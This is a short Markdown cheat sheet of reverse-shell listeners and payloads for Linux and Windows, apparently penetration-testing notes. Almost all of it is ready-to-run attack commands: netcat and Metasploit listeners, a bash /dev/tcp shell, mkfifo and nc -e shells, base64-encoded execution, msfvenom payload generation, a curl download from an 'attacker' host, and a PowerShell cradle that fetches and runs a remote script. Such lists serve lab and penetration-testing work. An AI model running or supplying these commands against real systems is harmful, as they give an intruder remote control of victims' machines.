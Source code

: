 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

## Listeners

Meterpreter Windows x86 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Meterpreter Windows x86 Reverse TCP Staged
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell-x86.exe`

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang PowerShell Revshell (GitHub linked in Tools document)
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```


